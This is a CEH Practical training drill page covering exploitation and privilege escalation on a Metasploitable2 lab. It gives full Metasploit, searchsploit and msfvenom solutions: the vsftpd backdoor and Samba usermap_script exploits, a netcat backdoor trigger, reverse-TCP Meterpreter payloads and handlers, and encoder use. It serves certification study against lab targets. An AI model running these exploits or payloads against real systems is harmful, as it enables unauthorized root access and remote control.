

repository: morandeirachema/CyberCerts · page: certs/ceh/practical/drills/09-exploitation-privesc/index.html · generator: mkdocs

# Drill Pack 09 — Exploitation & Privilege Escalation

> Deep, Practical-style pack for **getting a shell and escalating to root**. Every challenge has a full solution (exact `msfconsole`/`searchsploit`/`msfvenom` commands, expected output, the exact answer, and a ⚡ faster route). Solve from the recipes in [`../challenge-playbooks.md`](../challenge-playbooks.md) with a timer running; expand the solution only when done or stuck. Theory lives in [Module 06 — System Hacking](../../modules/06-system-hacking/README.md) and the tools in [`../../kali/09-metasploit.md`](../../kali/09-metasploit.md) + [`../../kali/14-post-exploitation-pivoting.md`](../../kali/14-post-exploitation-pivoting.md). **Lab targets only.**

> **Setup.** Lab running: Kali `192.168.56.10`, **Metasploitable2 `192.168.56.20`** (deliberately vulnerable — vsftpd 2.3.4 backdoor, Samba 3.0.20 `usermap_script`, distccd, UnrealIRCd 3.2.8.1). Start the Metasploit DB once (`sudo msfdb init`) and set `setg RHOSTS 192.168.56.20` / `setg LHOST 192.168.56.10` so you never retype them. Fingerprint first: `db_nmap -sV 192.168.56.20`.

Score yourself **✅ under target / ⚠ over time / ❌ needed the solution**. Re-drill anything not ✅.

---

### Drill 1 — Find the public exploit with searchsploit ⏱ 5 min
**Q:** Your scan shows `vsftpd 2.3.4` on port 21 of `192.168.56.20`. Find the public exploit for it — what is the **EDB-ID** of the Metasploit backdoor module?

<details><summary>Solution</summary>
```bash
searchsploit vsftpd 2.3.4
# ---------------------------------------------- ---------------------------------
#  Exploit Title                                | Path
# ---------------------------------------------- ---------------------------------
#  vsftpd 2.3.4 - Backdoor Command Execution    | unix/remote/49757.py
#  vsftpd 2.3.4 - Backdoor Command Execution (M | unix/remote/17491.rb
searchsploit -p 17491        # show full path + copy to clipboard
```
**You should see:** two hits — a standalone Python PoC and the Metasploit Ruby module. The filename *is* the EDB-ID (`17491.rb` → EDB-ID **17491**).

**Exact answer:** EDB-ID **17491** (Metasploit module) — the Python standalone is **49757**.

⚡ **Faster:** for the other Metasploitable2 services, `searchsploit` the version and read the filename number:

| Service (Metasploitable2) | `searchsploit` query | Metasploit module | EDB-ID |
|---|---|---|---|
| vsftpd 2.3.4 | `searchsploit vsftpd 2.3.4` | `exploit/unix/ftp/vsftpd_234_backdoor` | 17491 |
| Samba 3.0.20 | `searchsploit samba usermap` | `exploit/multi/samba/usermap_script` | 16320 |
| UnrealIRCd 3.2.8.1 | `searchsploit unrealircd` | `exploit/unix/irc/unreal_ircd_3281_backdoor` | 16922 |
| distccd 1.x | `searchsploit distcc` | `exploit/unix/misc/distcc_exec` | 9915 |

Copy any PoC out with `searchsploit -m <edb-id>` (mirror to the current dir).
</details>

### Drill 2 — Exploit the vsftpd backdoor, read /root ⏱ 6 min
**Q:** Exploit the vsftpd 2.3.4 backdoor on `192.168.56.20`, list `/root`, and read `/root/reset_logs.sh`. **What user are you?**

<details><summary>Solution</summary>
```bash
msfconsole -q
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 > set RHOSTS 192.168.56.20
msf6 > run
```
**You should see:**
```
[+] 192.168.56.20:21 - Backdoor service has been spawned, handling...
[+] 192.168.56.20:21 - UID: uid=0(root) gid=0(root)
[*] Command shell session 1 opened (192.168.56.10 -> 192.168.56.20:6200)
```
It's a raw shell (no prompt). Confirm who you are and read the file:
```bash
id                       # uid=0(root) gid=0(root)
whoami                   # root
ls -la /root ; cat /root/reset_logs.sh
```
**Exact answer:** you are **`root`** (`uid=0(root) gid=0(root)`) — the backdoor spawns a root shell directly, so there is no payload to set and no privesc needed.

⚡ **Faster:** one-liner — `msfconsole -q -x "use exploit/unix/ftp/vsftpd_234_backdoor; set RHOSTS 192.168.56.20; run"`. No Metasploit needed at all: `nc 192.168.56.20 21`, send `USER pwn:)` then `PASS x`, disconnect, then `nc 192.168.56.20 6200` → you land on the root shell the backdoor opened.
</details>

### Drill 3 — Upgrade a shell to Meterpreter ⏱ 10 min
**Q:** Turn a plain command-shell session into a **Meterpreter** session, then run `sysinfo`. What OS does the target report?

<details><summary>Solution</summary>
From the vsftpd shell (Drill 2), drop back to msf and upgrade the session:
```bash
# in the shell session:
background               # (or Ctrl+Z) -> returns to msf6 >
msf6 > sessions -l       # note the shell session id, e.g. 1
msf6 > sessions -u 1     # runs post/multi/manage/shell_to_meterpreter
```
**You should see:** the module push a `linux/x86/meterpreter/reverse_tcp` stage and open a **new** session:
```
[*] Meterpreter session 2 opened (192.168.56.10:4433 -> 192.168.56.20:...)
```
Interact and orient yourself:
```bash
msf6 > sessions -i 2
meterpreter > getuid          # Server username: root ... (uid=0)
meterpreter > sysinfo
```
**Exact answer:** `sysinfo` reports **OS: Linux (Ubuntu 8.04)**, architecture **i686/x86**, Computer **metasploitable** — a native Meterpreter running in memory. `getuid` is still root.

⚡ **Faster:** run the post module by hand for control over LPORT — `use post/multi/manage/shell_to_meterpreter; set SESSION 1; run`. If a session already gives Meterpreter (e.g. a Windows exploit), skip this entirely.
</details>

### Drill 4 — Build a payload with msfvenom and catch it ⏱ 10 min
**Q:** Build a reverse-TCP Meterpreter executable with **msfvenom**, stand up a `multi/handler` to match, and confirm the callback opens a session.

<details><summary>Solution</summary>
Build the payload (Windows exe for the lab Windows VM):
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
    LHOST=192.168.56.10 LPORT=4444 -f exe -o /tmp/lab_payload.exe
# You should see: "Payload size: ... bytes"  and  "Saved as: /tmp/lab_payload.exe"
```
Catch it — the handler payload **must match `-p` exactly**:
```bash
msfconsole -q
msf6 > use exploit/multi/handler
msf6 > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 > set LHOST 192.168.56.10
msf6 > set LPORT 4444
msf6 > run
# [*] Started reverse TCP handler on 192.168.56.10:4444
```
Run `lab_payload.exe` on the Windows lab VM. **You should see:** `Sending stage ... Meterpreter session 1 opened` — then `getuid` shows the Windows user.

**Exact answer:** the handler prints **`Meterpreter session 1 opened`** and drops you at a `meterpreter >` prompt (same session type as Drill 3).

⚡ **Faster / self-contained (no Windows box):** build a Linux ELF and test it on Kali's loopback — `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf -o /tmp/p.elf`, set the handler to `linux/x64/meterpreter/reverse_tcp` with `LHOST 127.0.0.1`, then `chmod +x /tmp/p.elf && /tmp/p.elf` in a second terminal → session opens, `getuid` = your Kali user. Add `-e x86/shikata_ga_nai -i 5` to see encoding in action.
</details>

### Drill 5 — Samba usermap_script → root shell ⏱ 8 min
**Q:** Exploit the Samba 3.0.20 `usermap_script` flaw (CVE-2007-2447) on `192.168.56.20` to get a shell. What user does it run as?

<details><summary>Solution</summary>
```bash
msf6 > use exploit/multi/samba/usermap_script
msf6 > set RHOSTS 192.168.56.20
msf6 > set LHOST 192.168.56.10
msf6 > run
```
**You should see:**
```
[*] Command shell session 1 opened (192.168.56.10:4444 -> 192.168.56.20:139)
```
The bug injects shell metacharacters through the SMB *username* field into a `system()` call in Samba's `username map script` config — and smbd runs as root, so the injected command runs as root. Confirm:
```bash
id        # uid=0(root) gid=0(root)
```
**Exact answer:** **`root`** (`uid=0`). The default payload is `cmd/unix/reverse_netcat` — a raw shell, no Meterpreter until you `sessions -u`.

⚡ **Faster:** it's the fastest "guaranteed root" module on this box — `msfconsole -q -x "use exploit/multi/samba/usermap_script; set RHOSTS 192.168.56.20; set LHOST 192.168.56.10; run"`. No creds and no `check` needed; the injection is unauthenticated.
</details>
